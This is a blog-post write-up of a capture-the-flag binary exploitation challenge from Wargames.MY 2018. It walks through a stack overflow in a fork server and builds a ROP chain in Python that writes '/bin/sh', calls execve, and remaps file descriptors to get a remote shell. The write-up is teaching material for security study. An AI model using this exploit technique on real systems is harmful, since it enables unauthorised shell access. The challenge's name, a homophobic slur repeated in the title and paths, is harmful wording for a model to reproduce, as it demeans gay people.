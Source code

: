 ```yaml
---
layout: post
title: Wargames.MY 2018 - faggot2.0 (pwn) - ROP with unknown file descriptor
id: wargamesmy18fgt
---
```


> [challenge][file]

It seems that no one solved this challenge during the competition. Due to the large amount of challenges, I also did not manage to work on this challenge, but solved it after the competition, so here's my writeup.

## Static Analysis
The program was rather straightforward, running as a fork server with the following pseudocode.

```c
int main() {
    int connectionfd;

    while(1) {
        int socketfd = socket(AF_INET, SOCK_STREAM, IPPROTO_IP);
        setsockopt(socketfd, SOL_SOCKET, SO_REUSEADDR, [1], 4);
        bind(socketfd, {sa_family=AF_INET, sin_port=htons(31337), sin_addr=inet_addr("0.0.0.0")}, 16);
        listen(socketfd, 5);
        connectionfd = accept(socketfd, {sa_family=AF_INET, sin_port=htons(51320), sin_addr=inet_addr("127.0.0.1")}, [16]));

        if (!fork())    // if fork() == 0, then this is the child, then break out of listening loop
            break;
    }

    // ran by child process
    close(socketfd);

    char buf[15];
    read(connectionfd, buf, 0xf);
    int nbytes = atoi(buf);

    char biggerbuf[0x80];
    read(connectionfd, biggerbuf, nbytes);
}
```

*If you are wondering how to get the enums for the socket API functions easily, I just ran `strace` on the challenge binary, which will show all system calls being called by the process.*

As we can see, we can choose how many bytes we want to read. Immediate thought is to use [ROP](http://codearcana.com/posts/2013/05/28/introduction-to-return-oriented-programming-rop.html). A good place to learn ROP would be the [ROP Emporium](https://ropemporium.com).

`checksec ./challenge`
```
[*] '/root/ctfs/wargamesmy/faggot2/challenge'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
```

CANARY and PIE were not enabled for this challenge, which makes things easier.

## Exploitation
As the challenge binary itself implements the server, the best way to debug my exploit is by attaching GDB to the child process (aka the client) every time I want to test it.

For the sake of convenience, my terminal is set up this way.

![workenv][workenv]

The top left pane, running `strace ./challenge`, will tell me the pid of the child process, which I can attach to using GDB in the bottom left pane.

By passing in a De-Brujin pattern, we find that a padding of `152` bytes is needed until we reach the return address in the stack.

### ROP Chain
As we are given an arbitrary amount of bytes to write, there aren't really any restrictions on our ROP chain apart from the gadgets we can find.

Using [ropper](https://github.com/sashs/Ropper), I managed to find gadgets for controlling registers `rax`, `rdi`, `rsi` and `rbp`, and also to write `eax` into a memory relative to `rbp`.

```py
POP_RAX_RET = 0x4009d2
POP_RDI_RET = 0x400ba3
POP_RBP_RET = 0x400840
POP_RSI_RET = 0x400ba1
SYSCALL = 0x4009d4
MOV_DWORD = 0x4009cf  # mov dword ptr [rbp - 8], eax; pop rax; ret
```

So now it's all left to constructing the rop chain.

#### `execve`
The most convenient way is to just call `execve("/bin/sh", 0, 0)`. But we need a pointer referring to memory containing the string `"/bin/sh"`. 

Looking into the mappings of the process, we can write into this region.

```
0x0000000000601000 0x0000000000602000 0x0000000000001000 rw- /root/ctfs/wargamesmy/faggot
```

With the gadgets found earlier, we can write `"/bin/sh"` into address `0x601500` 4 bytes a time using `eax`.

```py
# pop rbp, ret;  sets rbp to 0x601508
# pop rax, ret;  sets rax to "/bin\x00\x00\x00\x00", aka eax to "/bin/sh"
# mov dword ptr [rbp - 8], eax; pop rax; ret;  we can now write "/bin" into 0x601508

# now, do it again for "/sh\x00"
# skipping pop rax, ret because the previous gadget already contains it
# pop rbp, ret;
# mov dword ...

payload += p64(POP_RBP_RET) + p64(0x601508)
payload += p64(POP_RAX_RET) + "/bin\x00\x00\x00\x00"
payload += p64(MOV_DWORD) + "/sh\x00\x00\x00\x00\x00"
payload += p64(POP_RBP_RET) + p64(0x60150c)
payload += p64(MOV_DWORD) + p64(0)
```

With `"/bin/sh"` in place, we can point `rdi` to it, clear `rsi`, and set `rax` to `0x3b` with is the syscall number of `execve`. We ignore `rdx` as it was fortunately already set to 0 by the program itself before reaching here.
```py
# execve("/bin/sh", 0, 0);

payload += p64(POP_RDI_RET) + p64(0x601500)
payload += p64(POP_RSI_RET) + p64(0) + p64(0)
payload += p64(POP_RAX_RET) + p64(0x3b)
payload += p64(SYSCALL)           
```

Now we can run the send the payload and get our shell. But it doesn't work? Nothing happens. 

#### `close` and `dup`
Recall that when the server connects to our client, it uses a different file descriptor for IO instead of the standard `stdin`, `stdout` and `stderr` in 0, 1 and 2.

We need to replace 0, 1 and 2 with the file descriptor for our client. We can do that by first closing those 3 files, using the `close` syscall. Then use `dup(connectionfd)` to duplicate our client's `fd`. 

`dup` works by duplicating the information of the given file to the lowest file descriptor number possible that is not opened yet, in which case its 0, 1 and 2 which we just closed.

Similar to `execve` above, we can set our registers to replace the file descriptors.
```py
# close(0); close(1); close(2)           
payload += p64(POP_RDI_RET) + p64(0)              
payload += p64(POP_RAX_RET) + p64(3)              
payload += p64(SYSCALL)
payload += p64(POP_RDI_RET) + p64(1)
payload += p64(POP_RAX_RET) + p64(3)                                                     
payload += p64(SYSCALL)
payload += p64(POP_RDI_RET) + p64(2)                                                     
payload += p64(POP_RAX_RET) + p64(3)
payload += p64(SYSCALL)

# dup(4)
payload += p64(POP_RDI_RET) + p64(4)
payload += p64(POP_RAX_RET) + p64(32)
payload += p64(SYSCALL)
payload += p64(POP_RDI_RET) + p64(4)
payload += p64(POP_RAX_RET) + p64(32)
payload += p64(SYSCALL)   
```

Now we can send the payload, and get a working shell!

Not quite yet. As you can see, we are duplicating the file number 4. This is based on the assumption that no other clients are connected to the server at this point in time. This is because 0, 1 and 2 are occupied by `stdin`, `stdout` and `stderr`, 3 is occupied by `socketfd`, making 4 the lowest available file number, which is assigned to the next client that connects. If say there are 5 clients connected at this time, then we will be assigned file number 9.

Well, with the assumption that there aren't a lot of teams in this CTF, we can run this exploit a few more times if it fails.

The full exploit script can be found [here][xpl].

***

[file]:{{site.baseurl}}/ctfs/wargamesmy-18/faggot2/challenge
[workenv]:{{site.baseurl}}/ctfs/wargamesmy-18/faggot2/workenv.png
[xpl]:{{site.baseurl}}/ctfs/wargamesmy-18/faggot2/xpl.py